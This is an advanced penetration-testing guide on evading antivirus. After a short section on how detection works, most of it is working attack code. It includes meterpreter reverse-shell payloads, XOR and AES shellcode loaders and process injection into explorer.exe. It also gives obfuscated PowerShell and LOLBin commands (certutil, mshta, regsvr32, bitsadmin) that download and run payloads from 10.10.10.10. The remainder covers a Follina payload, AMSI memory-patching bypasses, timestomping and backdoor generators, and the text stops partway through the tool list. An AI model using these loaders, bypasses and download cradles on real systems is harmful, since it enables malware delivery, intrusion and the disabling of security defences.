

# Antivirus Evasion

> **Difficulty:** Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [How Antivirus Works](#how-antivirus-works)
2. [Evasion Techniques](#evasion-techniques)
3. [AMSI Bypass Techniques](#amsi-bypass-techniques)
4. [Evasion Tools](#evasion-tools)
5. [Testing AV Evasion](#testing-av-evasion)
6. [Technique Decision Tree](#technique-decision-tree)

---

## How Antivirus Works

Understanding how AV engines detect threats is prerequisite knowledge before attempting evasion. Modern AV products use several layered detection mechanisms simultaneously.

### Signature-Based Detection

**Signature-based detection** is the oldest and most well-understood detection method. It operates by comparing file content against a database of known malicious byte sequences.

- **Hash matching:** The entire file is hashed (MD5, SHA1, SHA256) and compared against a known-bad hash database. Any single-byte change produces a completely different hash.
- **Byte pattern matching (YARA-style):** AV vendors extract unique byte sequences from malware samples — often 16–32 bytes from functionally important code sections — and store these as signatures. The engine scans file content looking for these sequences.
- **Section analysis:** PE section names, import tables, and resource section content are all fed into signature generation. Sections with high entropy (encrypted/compressed payloads) are flagged by some engines.
- **String matching:** Plaintext strings embedded in binaries (URLs, registry keys, mutex names, API call sequences as strings) are extracted and matched.

> **Note:** Signature databases are updated multiple times daily. A payload that evades detection today may be detected tomorrow if caught in the wild and analyzed.

**How signatures are generated:**
1. A new malware sample is submitted (via honeypot, user report, automatic sandbox submission).
2. Analysts or automated pipelines run static analysis — disassembly, string extraction, import analysis.
3. Unique, stable byte sequences that aren't present in benign software are extracted.
4. Signatures are pushed to the cloud update infrastructure, typically within hours of discovery.

### Heuristic Detection

**Heuristic detection** attempts to classify unknown files as malicious based on suspicious characteristics *without* running the sample.

- **Behavioral heuristics:** The engine emulates execution in a lightweight internal emulator, watching for suspicious API call sequences (e.g., `VirtualAlloc` → `WriteProcessMemory` → `CreateRemoteThread`).
- **Structural heuristics:** Checks for suspicious PE header characteristics — packed sections (high entropy), missing debug info, unusual section names, import count anomalies.
- **Code analysis heuristics:** Detects common packer stubs, self-modifying code indicators, anti-disassembly techniques.
- **Entropy analysis:** Sections with entropy > 7.0 are often flagged as potentially packed/encrypted malware.

```python
# Checking PE section entropy (for understanding what AV sees)
import math
import pefile

def entropy(data):
    if not data:
        return 0
    freq = {}
    for byte in data:
        freq[byte] = freq.get(byte, 0) + 1
    e = 0
    for count in freq.values():
        p = count / len(data)
        e -= p * math.log2(p)
    return e

pe = pefile.PE("payload.exe")
for section in pe.sections:
    name = section.Name.decode().strip('\x00')
    data = section.get_data()
    print(f"Section: {name:10} Entropy: {entropy(data):.4f}")
```

### Behavioral / Dynamic Detection

**Behavioral/dynamic detection** involves actually executing the sample in a controlled environment and monitoring its runtime actions.

- **Sandboxing:** Files are detonated in a virtual machine (Cuckoo, ANY.RUN, Joe Sandbox, Wildfire). The sandbox records API calls, network connections, file system changes, registry changes, and spawned processes.
- **Runtime API monitoring:** Hooks are placed on critical Win32 API functions. When a suspicious sequence is detected at runtime, execution is terminated.
- **Memory scanning:** The AV engine periodically scans process memory for known shellcode patterns, even after decryption/unpacking.
- **Suspicious behaviors flagged:**
  - Injecting code into other processes
  - Modifying HKLM registry run keys
  - Dropping and executing additional payloads
  - Establishing network connections immediately after launch
  - Disabling AV services or modifying AV configuration

### Cloud-Based Detection

**Cloud-based detection** extends local AV capabilities by leveraging massive cloud infrastructure.

- **File hash lookup:** Before full scanning, the file hash is sent to a cloud reputation engine. Known-clean files get instant clearance; known-bad files are instantly blocked.
- **File content submission:** In some configurations, the full file or suspicious code sections are sent to the cloud for analysis.
- **ML models:** Trained on billions of samples, ML classifiers can identify malicious files based on feature vectors extracted from PE headers, imported functions, section characteristics, and strings.
- **Reputation feedback loops:** Telemetry from millions of endpoints feeds back into detection models continuously.

> **Warning:** Cloud-based AV submission means your payload may be seen by the vendor. Disable cloud lookup / sample submission in test environments to avoid burning payloads prematurely.

---

## Evasion Techniques

### 1. Encoding Payloads with msfvenom

**msfvenom encoders** transform shellcode to break static signatures. However, modern AV engines recognize most standard encoders — they are primarily useful for basic detection evasion, not enterprise-grade AV.

```bash
# List available encoders
msfvenom --list encoders

# Single encoding with shikata_ga_nai (polymorphic XOR additive feedback)
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.10.10 LPORT=4444 \
  -e x86/shikata_ga_nai -i 10 \
  -f exe -o payload_encoded.exe

# Chained double-encoding
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.10.10.10 LPORT=4444 \
  -e x86/shikata_ga_nai -i 5 \
  -e x86/countdown -i 5 \
  -f exe -o payload_double.exe

# Encode as PowerShell
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.10.10 LPORT=4444 \
  -f psh-reflection -o payload.ps1

# Raw shellcode output for custom loaders
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.10.10 LPORT=4444 \
  -f raw -o shellcode.bin

# Output as C byte array for embedding
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.10.10 LPORT=4444 \
  -f c -o shellcode.c
```

> **Note:** `x64/xor_dynamic` and `x64/zutto_dekiru` are better choices for 64-bit payloads. `x86/shikata_ga_nai` only works with 32-bit payloads.

### 2. XOR Shellcode Encryption

**XOR encryption** applies a key to transform shellcode bytes. The decryptor runs at execution time in memory, so AV never sees the plaintext shellcode on disk.

```python
#!/usr/bin/env python3
# xor_encrypt.py — XOR-encrypt shellcode with a multi-byte key

import sys

# Replace with real shellcode bytes from msfvenom -f raw | xxd -i
shellcode = bytearray([
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00,
    0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
    # ... (truncated; use msfvenom -f raw output)
])

key = bytearray(b'\xDE\xAD\xBE\xEF\xCA\xFE\xBA\xBE')

encrypted = bytearray()
for i, byte in enumerate(shellcode):
    encrypted.append(byte ^ key[i % len(key)])

# Output as C array
print("unsigned char key[] = {", end="")
print(", ".join(f"0x{b:02x}" for b in key), end="")
print("};")

print(f"unsigned int key_len = {len(key)};")
print("unsigned char payload[] = {", end="")
print(", ".join(f"0x{b:02x}" for b in encrypted), end="")
print("};")
print(f"unsigned int payload_len = {len(encrypted)};")
```

```c
// xor_loader.c — C stub that decrypts and executes XOR-encrypted shellcode
#include <windows.h>
#include <stdio.h>

unsigned char key[] = {0xDE, 0xAD, 0xBE, 0xEF, 0xCA, 0xFE, 0xBA, 0xBE};
unsigned int key_len = 8;

// Paste encrypted shellcode bytes here (from xor_encrypt.py output)
unsigned char payload[] = { /* encrypted bytes */ };
unsigned int payload_len = sizeof(payload);

void xor_decrypt(unsigned char *data, unsigned int data_len,
                 unsigned char *key, unsigned int key_len) {
    for (unsigned int i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main(void) {
    // Decrypt in place
    xor_decrypt(payload, payload_len, key, key_len);

    // Allocate RWX memory
    LPVOID exec_mem = VirtualAlloc(NULL, payload_len,
                                   MEM_COMMIT | MEM_RESERVE,
                                   PAGE_EXECUTE_READWRITE);
    if (!exec_mem) return 1;

    // Copy decrypted shellcode to allocated memory
    RtlMoveMemory(exec_mem, payload, payload_len);

    // Execute shellcode via function pointer
    DWORD thread_id;
    HANDLE thread = CreateThread(NULL, 0,
                                  (LPTHREAD_START_ROUTINE)exec_mem,
                                  NULL, 0, &thread_id);
    WaitForSingleObject(thread, INFINITE);
    return 0;
}
```

```bash
# Compile the loader
x86_64-w64-mingw32-gcc -o loader.exe xor_loader.c -lkernel32 -mwindows
# Or with cl.exe on Windows:
cl.exe xor_loader.c /link kernel32.lib /subsystem:windows
```

### 3. AES Shellcode Encryption

**AES-CBC encryption** provides stronger protection. Using standard WinAPI crypto functions avoids needing external dependencies.

```python
#!/usr/bin/env python3
# aes_encrypt.py — AES-256-CBC encrypt shellcode
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad
import binascii

shellcode = bytes.fromhex(
    "fc4883e4f0e8c0000000415141505251"  # Replace with real shellcode hex
)

key = get_random_bytes(32)   # 256-bit key
iv  = get_random_bytes(16)   # 128-bit IV

cipher = AES.new(key, AES.MODE_CBC, iv)
encrypted = cipher.encrypt(pad(shellcode, AES.block_size))

def fmt_c_array(name, data):
    hex_vals = ", ".join(f"0x{b:02x}" for b in data)
    return f"unsigned char {name}[] = {{{hex_vals}}};\nunsigned int {name}_len = {len(data)};"

print(fmt_c_array("aes_key", key))
print(fmt_c_array("aes_iv", iv))
print(fmt_c_array("payload", encrypted))
```

```c
// aes_loader.c — AES decrypt using Windows CNG (BCrypt)
#include <windows.h>
#include <bcrypt.h>
#pragma comment(lib, "bcrypt.lib")

// Paste generated arrays here
unsigned char aes_key[] = { /* 32 bytes */ };
unsigned char aes_iv[]  = { /* 16 bytes */ };
unsigned char payload[] = { /* encrypted bytes */ };
unsigned int  payload_len = sizeof(payload);

int main(void) {
    BCRYPT_ALG_HANDLE hAlg = NULL;
    BCRYPT_KEY_HANDLE hKey = NULL;
    PBYTE pbKeyObj = NULL;
    DWORD cbKeyObj = 0, cbData = 0;
    PUCHAR decrypted = NULL;
    ULONG decrypted_len = 0;

    BCryptOpenAlgorithmProvider(&hAlg, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(hAlg, BCRYPT_CHAINING_MODE,
                      (PBYTE)BCRYPT_CHAIN_MODE_CBC,
                      sizeof(BCRYPT_CHAIN_MODE_CBC), 0);
    BCryptGetProperty(hAlg, BCRYPT_OBJECT_LENGTH,
                      (PBYTE)&cbKeyObj, sizeof(DWORD), &cbData, 0);
    pbKeyObj = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObj);
    BCryptGenerateSymmetricKey(hAlg, &hKey, pbKeyObj, cbKeyObj,
                               aes_key, sizeof(aes_key), 0);

    decrypted = (PUCHAR)LocalAlloc(LPTR, payload_len);
    BCryptDecrypt(hKey, payload, payload_len,
                  NULL, aes_iv, sizeof(aes_iv),
                  decrypted, payload_len, &decrypted_len, BCRYPT_BLOCK_PADDING);

    LPVOID exec_mem = VirtualAlloc(NULL, decrypted_len,
                                   MEM_COMMIT | MEM_RESERVE,
                                   PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(exec_mem, decrypted, decrypted_len);

    HANDLE hThread = CreateThread(NULL, 0,
                                   (LPTHREAD_START_ROUTINE)exec_mem,
                                   NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);

    BCryptDestroyKey(hKey);
    BCryptCloseAlgorithmProvider(hAlg, 0);
    HeapFree(GetProcessHeap(), 0, pbKeyObj);
    LocalFree(decrypted);
    return 0;
}
```

### 4. Payload Obfuscation — PowerShell

**Invoke-Obfuscation** provides multiple layers of PowerShell obfuscation.

```powershell
# Install Invoke-Obfuscation
git clone https://github.com/danielbohannon/Invoke-Obfuscation
cd Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation

# Inside Invoke-Obfuscation console:
SET SCRIPTBLOCK {IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/shell.ps1')}
TOKEN
ALL
1
# Produces: obfuscated token form

# String concatenation obfuscation (manual)
$a = "IEX"; $b = " (New-Obj"; $c = "ect Net.W"; $d = "ebClient).Down"
$e = "loadString('http://10.10.10.10/shell.ps1')"
Invoke-Expression ($a + $b + $c + $d + $e)

# Base64 encoding
$cmd = 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/shell.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded

# Tick insertion (backtick obfuscation)
I`E`X (N`ew-Ob`ject N`et.W`ebCli`ent).Down`loadS`tring('http://10.10.10.10/shell.ps1')

# Variable substitution
${IFS}=New-Object Net.WebClient; ${IFS}.DownloadFile('http://10.10.10.10/nc.exe','C:\nc.exe')

# Type accelerator obfuscation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')

# COMPRESS technique (gzip + base64)
$bytes = [System.IO.Compression.GZipStream]::new(
    [System.IO.MemoryStream]::new([Convert]::FromBase64String($compressed)),
    [System.IO.Compression.CompressionMode]::Decompress)
```

```powershell
# SecureString obfuscation trick
$ss = ConvertTo-SecureString "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/s.ps1')" -AsPlainText -Force
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
Invoke-Expression $plain
```

### 5. Custom Payload Compilers / Shellcode Loaders

Writing shellcode loaders from scratch avoids all msfvenom PE signatures.

```c
// clean_loader.c — minimal shellcode loader using VirtualAlloc + CreateThread
// Compile: x86_64-w64-mingw32-gcc -o loader.exe clean_loader.c -mwindows -s
#include <windows.h>

// Shellcode bytes — generated with msfvenom -f raw piped through custom encryptor
unsigned char buf[] = {
    0xfc, 0x48, 0x83, 0xe4, 0xf0  // Replace with real encrypted shellcode
};

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine, int nCmdShow) {
    (void)hInstance; (void)hPrevInstance; (void)lpCmdLine; (void)nCmdShow;

    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(buf), 0);
    LPVOID mem = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(buf));
    if (!mem) return 1;

    RtlMoveMemory(mem, buf, sizeof(buf));

    // Change protection to RX only (less suspicious than RWX)
    DWORD old_prot;
    VirtualProtect(mem, sizeof(buf), PAGE_EXECUTE_READ, &old_prot);

    HANDLE hThread = CreateThread(NULL, 0,
                                   (LPTHREAD_START_ROUTINE)mem,
                                   NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

```c
// Code cave technique — inject shellcode into a legitimate PE's unused space
// This is conceptual; actual implementation requires PE manipulation library

// 1. Parse PE headers to find a code cave (sequence of 0x00 bytes in .text)
// 2. Copy shellcode into the cave
// 3. Redirect the original entry point to the shellcode
// 4. At end of shellcode, jump back to original entry point

// Using objdump to find caves:
// objdump -d legitimate.exe | grep -c "00 00 00 00 00 00 00 00"
```

### 6. Process Injection

**Process injection** runs shellcode inside a legitimate process, making it harder to attribute and bypassing process-level AV.

```c
// process_inject.c — Classic OpenProcess/VirtualAllocEx/WriteProcessMemory/CreateRemoteThread
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

// Shellcode bytes here (encrypted, decrypted before injection)
unsigned char shellcode[] = { /* ... */ };
SIZE_T shellcode_len = sizeof(shellcode);

DWORD get_pid_by_name(const char *proc_name) {
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = {sizeof(PROCESSENTRY32)};
    DWORD pid = 0;
    if (Process32First(snap, &pe32)) {
        do {
            if (_stricmp(pe32.szExeFile, proc_name) == 0) {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snap, &pe32));
    }
    CloseHandle(snap);
    return pid;
}

int main(void) {
    DWORD pid = get_pid_by_name("explorer.exe");
    if (!pid) { fprintf(stderr, "Target process not found\n"); return 1; }

    HANDLE hProc = OpenProcess(
        PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION |
        PROCESS_VM_WRITE | PROCESS_VM_READ,
        FALSE, pid);
    if (!hProc) { fprintf(stderr, "OpenProcess failed: %lu\n", GetLastError()); return 1; }

    LPVOID remote_buf = VirtualAllocEx(hProc, NULL, shellcode_len,
                                        MEM_COMMIT | MEM_RESERVE,
                                        PAGE_EXECUTE_READWRITE);
    if (!remote_buf) { CloseHandle(hProc); return 1; }

    SIZE_T bytes_written;
    WriteProcessMemory(hProc, remote_buf, shellcode, shellcode_len, &bytes_written);

    HANDLE hThread = CreateRemoteThread(hProc, NULL, 0,
                                         (LPTHREAD_START_ROUTINE)remote_buf,
                                         NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);

    CloseHandle(hThread);
    CloseHandle(hProc);
    return 0;
}
```

```powershell
# PowerShell process injection using .NET P/Invoke
$code = @"
using System;
using System.Runtime.InteropServices;
public class Injector {
    [DllImport("kernel32.dll")]
    public static extern IntPtr OpenProcess(uint dwAccess, bool bInherit, int dwPid);
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAllocEx(IntPtr hProc, IntPtr lpAddr,
        uint dwSize, uint flAllocType, uint flProtect);
    [DllImport("kernel32.dll")]
    public static extern bool WriteProcessMemory(IntPtr hProc, IntPtr lpBase,
        byte[] buf, uint nSize, out UIntPtr lpNumWritten);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateRemoteThread(IntPtr hProc, IntPtr lpAttr,
        uint dwStackSize, IntPtr lpStart, IntPtr lpParam, uint dwCreate, out uint lpTid);
}
"@
Add-Type $code

$shellcode = [byte[]]@(0xfc, 0x48)  # Replace with real shellcode

$pid = (Get-Process explorer).Id
$hProc = [Injector]::OpenProcess(0x001F0FFF, $false, $pid)
$addr  = [Injector]::VirtualAllocEx($hProc, [IntPtr]::Zero, $shellcode.Length, 0x3000, 0x40)
$written = [UIntPtr]::Zero
[Injector]::WriteProcessMemory($hProc, $addr, $shellcode, $shellcode.Length, [ref]$written)
$tid = 0
[Injector]::CreateRemoteThread($hProc, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [ref]$tid)
```

### 7. Living off the Land (LOLBins)

**LOLBins (Living off the Land Binaries)** are legitimate signed Microsoft binaries that can be abused to execute arbitrary code.

```powershell
# certutil — download and decode payloads
# Download a file
certutil -urlcache -split -f http://10.10.10.10/payload.b64 C:\Users\Public\payload.b64
# Decode base64
certutil -decode C:\Users\Public\payload.b64 C:\Users\Public\payload.exe
# Delete download cache entry
certutil -urlcache -split -f http://10.10.10.10/payload.b64 delete

# mshta — execute HTA applications (HTML Application)
mshta http://10.10.10.10/payload.hta
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/s.ps1')"",0:window.close")

# regsvr32 Squiblydoo attack — execute COM scriptlets
regsvr32 /s /n /u /i:http://10.10.10.10/payload.sct scrobj.dll
# The SCT file is a COM scriptlet (JScript/VBScript in XML format)

# rundll32 JavaScript execution
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -e <b64cmd>",0,true);

# msiexec — install remote MSI package
msiexec /q /i http://10.10.10.10/payload.msi
msiexec /q /i \\10.10.10.10\share\payload.msi

# wscript / cscript — execute scripts
wscript C:\Users\Public\payload.js
cscript C:\Users\Public\payload.vbs
wscript //e:vbscript C:\Users\Public\encoded.txt

# bitsadmin — Background Intelligent Transfer Service download
bitsadmin /transfer job /download /priority high \
  http://10.10.10.10/payload.exe C:\Users\Public\payload.exe
# Powershell BITS equivalent
Start-BitsTransfer -Source http://10.10.10.10/payload.exe -Destination C:\Users\Public\payload.exe

# InstallUtil — bypass application whitelisting
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\payload.dll

# MSBuild — execute inline tasks
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\payload.xml

# PresentationHost (XBAP execution)
PresentationHost.exe -debug C:\payload.xbap

# odbcconf — execute DLL
odbcconf.exe /a {REGSVR C:\payload.dll}

# pcalua — program compatibility assistant
pcalua -m C:\payload.exe
```

```xml
<!-- Example SCT file for Squiblydoo (payload.sct) -->
<?XML version="1.0"?>
<scriptlet>
<registration progid="ShortJSRAT" classid="{10001111-0000-0000-0000-0000FEEDACDC}">
  <script language="JScript">
    <![CDATA[
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe /c powershell -nop -w hidden -e <base64_command>", 0, true);
    ]]>
  </script>
</registration>
</scriptlet>
```

### 8. Signed Binary Proxy Execution

**Signed binary proxy execution** uses Microsoft-signed binaries that can load and execute external code.

```powershell
# PsExec with signed binary
# Mavinject — inject DLL into running process using signed Microsoft binary
mavinject.exe <PID> /INJECTRUNNING C:\payload.dll

# SyncAppvPublishingServer — execute PowerShell without powershell.exe
SyncAppvPublishingServer.exe "n; IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/s.ps1')"

# Appsync
appsyncpublishingserver.exe "n; Start-Process calc.exe"

# Squiblytwo (WMIC + XSL)
wmic os get /FORMAT:"http://10.10.10.10/payload.xsl"

# MSDT (Follina — CVE-2022-30190)
ms-msdt:/id PCWDiagnostic /skip force /param "IT_BrowseForFile=?$(IEX('calc'))i/../../../../../../../../../../Windows/System32/mpsigstub.exe"
```

### 9. Timestomping

**Timestomping** modifies file metadata timestamps to blend malware in with legitimate files and confuse forensic timeline analysis.

```powershell
# PowerShell timestomping — set all timestamps to mimic system files
$file = Get-Item "C:\Users\Public\payload.exe"
$legitimate_time = "03/15/2022 10:23:47"
$file.CreationTime     = $legitimate_time
$file.LastWriteTime    = $legitimate_time
$file.LastAccessTime   = $legitimate_time

# Copy timestamps from a legitimate file
$src = Get-Item "C:\Windows\System32\notepad.exe"
$dst = Get-Item "C:\Users\Public\payload.exe"
$dst.CreationTime   = $src.CreationTime
$dst.LastWriteTime  = $src.LastWriteTime
$dst.LastAccessTime = $src.LastAccessTime

# Metasploit timestomp (post-exploitation module)
# meterpreter > timestomp -h
meterpreter > timestomp C:\\Users\\Public\\payload.exe -z "03/15/2022 10:23:47"
meterpreter > timestomp C:\\Users\\Public\\payload.exe -b  # Blank all timestamps
meterpreter > timestomp C:\\Users\\Public\\payload.exe -f C:\\Windows\\System32\\notepad.exe
```

```bash
# Linux timestamp manipulation
touch -t 202201010800.00 /tmp/backdoor
touch -d "2022-01-01 08:00:00" /tmp/backdoor
touch -r /bin/ls /tmp/backdoor  # Copy timestamps from /bin/ls

# Using debugfs to modify ext4 inode timestamps (requires root)
debugfs -w /dev/sda1
debugfs: set_inode_field <inode_num> atime 202201010800
```

> **Warning:** Timestomping on Windows does NOT modify the **$STANDARD_INFORMATION** vs **$FILE_NAME** MFT attributes consistently. Forensic tools like FTK and Autopsy compare these two attributes — discrepancies reveal timestomping.

---

## AMSI Bypass Techniques

**AMSI (Antimalware Scan Interface)** is a Windows API that allows security products to scan content submitted by script interpreters (PowerShell, VBScript, JScript, .NET, Office VBA macros).

### How AMSI Works

```
PowerShell Script → AmsiInitialize() → AmsiOpenSession() → AmsiScanBuffer() → AV Engine
                                                                    ↓
                                                          AMSI_RESULT_CLEAN / DETECTED
```

AMSI loads `amsi.dll` into the script interpreter's process. When a script is executed, `AmsiScanBuffer()` is called with the script content before execution. If the AV engine returns a positive detection, execution is blocked with an `AmsiException`.

### Bypass 1: Memory Patching AmsiScanBuffer

**Patch AmsiScanBuffer** to always return AMSI_RESULT_CLEAN (0x80070057).

```powershell
# Method 1: AmsiScanBuffer patch via reflection
$a = [Ref].Assembly.GetTypes() | Where-Object { $_.Name -eq 'AmsiUtils' }
$b = $a.GetFields('NonPublic,Static') | Where-Object { $_.Name -eq 'amsiContext' }
[IntPtr]$ptr = $b.GetValue($null)
[Int32[]]$buf = @(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

# Method 2: Direct memory patch of AmsiScanBuffer
$code = @"
using System;
using System.Runtime.InteropServices;
public class Bypass {
    [DllImport("kernel32")] public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")] public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize,
        uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $code

$lib  = [Bypass]::LoadLibrary("amsi.dll")
$addr = [Bypass]::GetProcAddress($lib, "AmsiScanBuffer")
$p    = 0
[Bypass]::VirtualProtect($addr, [UIntPtr]4, 0x40, [ref]$p)
# Patch with: ret (0xC3) — makes AmsiScanBuffer immediately return
$patch = [byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)  # mov eax, 0x80070057; ret
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $addr, 6)
```

### Bypass 2: amsiContext Corruption

```powershell
# Corrupt the amsiContext pointer to cause AmsiScanBuffer to fail harmlessly
[IntPtr]$amsiContext = ([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField(
    'amsiContext','NonPublic,Static')).GetValue($null)
[Runtime.InteropServices.Marshal]::WriteInt32($amsiContext, 0)
```

### Bypass 3: Downgrade Attack (PowerShell v2)

```powershell
# PowerShell v2 does not support AMSI (predates the interface)
powershell.exe -version 2 -command "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/s.ps1')"

# Check if v2 is available
Get-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
```

### Bypass 4: Reflection-Based Bypass

```powershell
# Using reflection to force-set amsiInitFailed
$r = [Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory()
[Reflection.Assembly]::LoadFile("$r\System.Management.Automation.dll")

$asm = [AppDomain]::CurrentDomain.GetAssemblies() | 
       Where-Object { $_.GlobalAssemblyCache -and $_.Location.Split('\\')[-1].Equals('System.Management.Automation.dll') }

$amsiUtils = $asm.GetType('System.Management.Automation.AmsiUtils')
$field = $amsiUtils.GetField('amsiInitFailed', 'NonPublic,Static')
$field.SetValue($null, $true)
```

### Bypass 5: COM Server Abuse

```powershell
# Force AMSI to use a non-existent provider COM server
$key = "HKLM:\SOFTWARE\Microsoft\AMSI\Providers"
# Adding a fake AMSI provider GUID causes initialization to fail
# (Requires admin privileges)
New-Item -Path "$key\{AAAAAAAA-BBBB-CCCC-DDDD-EEEEEEEEEEEE}" -Force
```

### Bypass 6: String Obfuscation to Avoid AMSI Signature

```powershell
# Split known AMSI-detected strings
$a = 'Am'; $b = 'si'; $c = 'Scan'; $d = 'Buffer'
$full = $a + $b + $c + $d  # "AmsiScanBuffer" — assembled at runtime

# Use char arrays
[char[]]$chars = 65,109,115,105,73,110,105,116,70,97,105,108,101,100
$str = -join $chars  # "amsiInitFailed"

# SecureString to obscure from memory scanners
$s = ConvertTo-SecureString "amsiInitFailed" -AsPlainText -Force
```

### Bypass 7: D/Invoke (Dynamic Invocation)

**D/Invoke** replaces P/Invoke with dynamic API resolution to avoid static import analysis.

```csharp
// Using SharpSploit's D/Invoke to call AmsiScanBuffer
// Add SharpSploit NuGet package to your project

using SharpSploit.Execution;
using System.Runtime.InteropServices;

// Resolve AmsiScanBuffer without static import
IntPtr hAmsi = DynamicInvoke.Generic.GetLoadedModuleAddress("amsi.dll");
IntPtr pAmsiScanBuffer = DynamicInvoke.Generic.GetExportAddress(hAmsi, "AmsiScanBuffer");

// Patch via D/Invoke (no P/Invoke for VirtualProtect visible in imports)
object[] args = new object[] { pAmsiScanBuffer, (UIntPtr)6, (uint)0x40, (uint)0 };
DynamicInvoke.Win32.VirtualProtect(pAmsiScanBuffer, (UIntPtr)6, 0x40, out uint oldProt);
```

---

## Evasion Tools

### Veil-Framework

**Veil** generates AV-evading payloads using multiple programming languages and techniques.

```bash
# Installation
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
./config/setup.sh --force --silent

# Run Veil
./Veil.py

# Inside Veil:
use evasion
list
use 41  # Python/Meterpreter/rev_tcp/X
set LHOST 10.10.10.10
set LPORT 4444
generate
# Choose output format and filename
```

### TheFatRat

```bash
# Installation
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && bash setup.sh

# Run
./fatrat

# Options:
# 1 - Create Backdoor with MSFvenom
# 2 - Create Backdoor with Backdoor-Factory
# 6 - Create Fud Backdoor 1000%
# 9 - Bypassing AV with MSFRPC
```

### Donut — .NET to Shellcode

**Donut** converts .NET assemblies, EXE, VBScript, and JScript into position-independent shellcode.

```bash
# Installation
git clone https://github.com/TheWover/donut.git
